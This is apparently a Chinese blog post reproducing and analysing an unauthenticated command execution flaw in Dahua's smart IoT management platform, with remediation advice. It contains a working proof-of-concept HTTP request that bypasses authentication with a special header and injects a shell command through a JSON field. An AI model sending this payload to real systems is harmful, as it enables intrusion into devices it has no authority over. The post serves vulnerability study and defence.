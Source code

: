 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI5NDg0ODkwMQ==&mid=2247486523&idx=1&sn=c262ed70b896a8afaec32e93cd9a7c3f

#  【漏洞复现】大华智能物联网综合管理平台 receive 命令执行漏洞  
 格格巫和蓝精灵   2025-07-22 05:35  
  
> 目前该漏洞互联网上资产基本都已修复，官方应该是做了热补丁，本文只做记录分析学习。  
  
  
****  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
大华智能物联综合管理平台，作为浙江大华技术股份有限公司推出的一款集成了多项业务管理功能的平台软件，该平台主要面向智能园区、商业综合体等多种应用场景，旨在提供一个全面、高效的解决方案，为客户提供一套集成、高效、开放、灵活可扩展、可定制的平台软件产品。功能全面、灵活可扩展、安全可靠的智能物联基础软件平台，能够满足企业在不同场景下的各种业务需求，助力企业实现数智化转型升级。大华智能物联综合管理平台receive和push接口存在命令执行漏洞，攻击者可利用该漏洞获取系统权限。  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpDzIUQictcTUullPOcNfKv7fe4MI3VCytmWyI29ziaMUIdawtWaZOug9w/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  

```
POST /evo-runs/v1.0/receive
POST /evo-runs/v1.0/push
```


```
POST /evo-runs/v1.0/receive HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Connection: close
Content-Length: 258
Content-Type: application/json
X-Subject-Headerflag: ADAPT
Accept-Encoding: gzip, deflate

{
 &#34;method&#34;: &#34;agent.ossm.mapping.config&#34;,
 &#34;info&#34;: {
  &#34;configure&#34;: &#34;abcd&#34;,
  &#34;filePath&#34;: &#34;haha&#34;,
  &#34;paramMap&#34;: {
   &#34;shellPath&#34;: &#34;/bin/bash -c id>/opt/evoWpms/static/xxx.txt&#34;,
   &#34;filePath&#34;: &#34;abc&#34;
  },
  &#34;requestIp&#34;: &#34;&#34;
}
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpzu0YQZZiajTAvlzLPxjYjibbA3SEyKGPF3bacIkM8BZp39tvBpOGwPhQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicptcULh9iclUKm26iar4fNlnWyeJcJSwWIWIbibY5Xnxz9SyhFeb1s6ibgIw/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
com/dahua/evo/runs/filter/AuthFilter.java中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpZU1MzX5YMN4j0R7qkuQ744303nmA30FpWW9gxSSumm4QyyeHK80KVw/640?wx_fmt=png&from=appmsg "")  
  
直接查看doFilter 方法，根据代码备注，可以发现如果header中包含X-Subject-HeaderFlag 为ADAPT 则不鉴权（刚开始还以为是adapt poc标记呢），如果方法在set中，则不进行鉴权  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpGLjyBZEAk3tFnnicrpGqRAllXzpscibV49RXFlQDZ4hPR7XHMh1ebQcQ/640?wx_fmt=png&from=appmsg "")  
  
看看放行方法怎么设置的，是从配置文件读取的，根据鉴权，如果在这里面的方法是可以直接调的，不在的就需要鉴权，但又可以header中包含X-Subject-HeaderFlag : ADAPT 进行绕过  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpXwhjCgWHia0msX2yARbx8e2c4O3rtwiaibibolf092vKBzcnM7peBvyHCA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpq8wWr2WFI8WQ17Xhl1T4jlFDSOUlcHAAjLo3icyOsZhE22qn4rvcvYw/640?wx_fmt=png&from=appmsg "")  
  
跟进路由  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpoojTwaUQaVoJ1RribCchLbWFn1lp5icibj45vWIpyiaCSewpbTqdUW2FSg/640?wx_fmt=png&from=appmsg "")  
  
解析请求体（
```
@RequestBody
```

  
）为 
```
AgentMsgParam
```

  
 对象  
  
调用业务服务 
```
msgDealService.msgDeal()
```

  
 处理消息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicplZtsG7Sa6K3pbibV07ibzO9aGJ0QicQRAKMHgfE0XYpwTL8OThRWr2qcw/640?wx_fmt=png&from=appmsg "")  
  
设置为本次漏洞可利用的方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpCQj2mlsHXib4z61kuVGRe2GbttdaiaZ4oFpFNviaiaBic8HACcmICMO0ydg/640?wx_fmt=png&from=appmsg "")  
  
跟进去就是runtime 执行系统命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicp8MDp8muhDib0hljnrHDVlA1bPYVzfnJotHYNibFB0GLfibR5JicIv7ic4Fw/640?wx_fmt=png&from=appmsg "")  
## 修复意见  
  
1.关闭互联网暴露面或接口设置访问权限  
  
2.联系官方获取补丁信息：https://www.dahuatech.com/  
  
  
  
如有侵权，请及时联系删除。  
  
